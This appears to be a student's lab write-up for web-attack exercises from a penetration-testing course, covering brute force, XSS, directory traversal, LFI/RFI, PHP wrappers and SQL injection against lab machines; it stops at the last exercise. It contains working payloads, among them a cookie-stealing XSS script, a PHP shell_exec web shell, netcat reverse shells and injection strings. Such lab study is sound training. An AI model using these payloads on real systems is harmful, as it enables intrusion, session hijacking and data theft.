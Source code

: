 # 9.5.2. Practice - Exploiting Admin Consoles
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

- We spot a phpmyadmin login portal located at the following URL `http://192.168.231.10/phpmyadmin/`
- In order to brute-force the login we must first capture the request in Burp Suite
![[burp_capture.png]]
- we then must set the correct payload variables and set the attack type to "Pitchforkl"![[pitchfork_brute.png]]
- Finally, we setup the payloads via the "Grep Extract" section in Intruder, capturing the response ![[grep_response.png]]
-  Once these steps are complete we can bruteforce the password 
![[Successful_bruteforce.png]]


2.  Insert a new user into the "users" table.
- Once logged in, creating a user is fairly simple. Start with navigating to the "User Accounts" tab
- Click the "Create New User" button
![[admin_user_add.png]]

# 9.6.6 Practice - XSS
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.
- First must craft an XSS that was successfully steal the cookie of an administrator. We will setup a listener on port 80 and use the following snippet:
 `<script>new Image().src="http://IP.ADDRESS/cool.jpg?output="+document.cookie;</script>`
-  We then input this into the "Comments" section of the web form.
![[xss_document_cookie.png]]
- To test the validity of the XSS we then run the powershell script on the Windows machine
- We can see that the cookie was set to our listener, enabling us to adjust our cookie and hijack the admin's session
![[cookie_steal.png]]
![[session_hijack.png]]
2.  Consider what other ways an XSS vulnerability in this application might be used for attacks.
As this is a stored XSS there are numerous possible ways to exploit this XSS which would have severe implications on the server and its user's. Examples could include anything from defacing the web application to account compromise.

3.  Does this exploit attack the server or clients of the site?
As this is a stored XSS the server is on the recieving end. That being said, any user who visits the page is suseptable to attack.

# 9.7.2 Directory Traversal Vulnerabilities

## Practice - Directory Traversal Vulnerabilities

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

This exploit only requires us to visit the following url:
`http://192.168.231.10/menu.php?file=current_menu.php`

From there we can edit the field after `menu.php?file=` to any file we wish to read, for example:
`http://192.168.231.10/menu.php?file=c:\windows\system32\drivers\etc\hosts`

# 9.8.5 LFI Code Execution

#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Obtain code execution through the use of the LFI attack.
- First, we make a malicious request to the server, injecting a PHP function into the log file that will execute the OS command
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
(note the `<pre>` tag meaning the line will be saved in its preformatted state, ignore breaks and spaces)

Here we can see the command being injected into this log file.
![[log_poisoning.png]]
- We then simply navigate to the vulnerable log file and call our newly injected function
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`
![[lfi_log_ipconfig.png]]
2.  Use the code execution to obtain a full shell.
We can simply alter our URL to execute the following command:
`nc -e cmd.exe 192.168.119.231 9001`
After encoding, the full URL would resemble the following:
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20-e%20cmd.exe%20192.168.119.231%209001`
![[log_lfi_revshell.png]]

# 9.8.7 Remote File Inclusion (RFI)

## Practice - Remote File Inclusion (RFI)

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the RFI vulnerability in the web application and get a shell.
We start by creating a malicious script to be hosted on our local machine
![[rfi_malicious_file.png]]
We then setup a python server to serve this malicious file.
2.  Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.
From there we request this malicious file via the URL of the vulnerable web application 
![[lfi_whoami.png]]

3.  Use one of the webshells i
We can build on this by instead of issuing the command "whoami" we supply a url encoded reverse shell.
![[rfi_revshell.png]]

# 9.8.10 PHP wrappers
## Practice - PHP Wrappers

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the LFI vulnerability using a PHP wrapper.
We simply append the php wrapper `file=data:text/plain,hello world` to the end of our url:
`http://192.168.231.10/menu.php?file=data:text/plain,hello%20world`

2.  Use a PHP wrapper to get a shell on your Windows 10 lab machine.
For this we replace the "hello world" at the end of our previous URL with a php script designed to execute code, we also place a reverse shell as our payload for the shell_exec to execute.
`<?php echo shell_exec("nc -e cmd.exe 192.168.119.231 9001") ?>`
![[shell_exec_revshell.png]]


# 9.9.4 SQL Injection - Authentication Bypass
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.
We can see that the malicious query is returning all user data, indicating that one of the "OR" arguments was satisfied. 
![[mariadb_query.png]]

2.  SQL inject the username field to bypass the login process.
A fairly similar username of "tom ' OR 1=1;#'" will bypass the login functionality.
![[username_sqli.png]]
3.  Why is the username displayed like it is in the web application once the authentication process is bypassed?
Because the web application is coded to reflect the entered username back to the user.
4.  Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?
The limit arguement is used to specify the maximum amount of rows that will be returned. As this web application is using code that expects a single record to be returned we must use "LIMIT 1" in order to avoid errors.

# 9.9.9 Extracting Data
## Practice - Extracting Data from the Database

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Enumerate the structure of the database using SQL injection.
We can enumerate the number of columns through trial and error via `union select all 1,2,...` 
![[Pasted image 20220620165113.png]]
![[Pasted image 20220620165813.png]]
Once we understand the number of columns we are able to work with we can begin enumerating different aspects of the databse. For example:
version information
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version`
current user
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()`
or a list of tables
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`



2.  Understand how and why you can pull data from your injected commands and have it displayed on the screen.
The reason our malicious queries are being displayed on the screen has to do with the alignment of columns. By utilizing the correct amount of columns we are able to basically stick the data requested via our malicious query on to the currently outputted information, ignorning any errors as the columns are in alignment.

3.  Extract all users and associated passwords from the database.
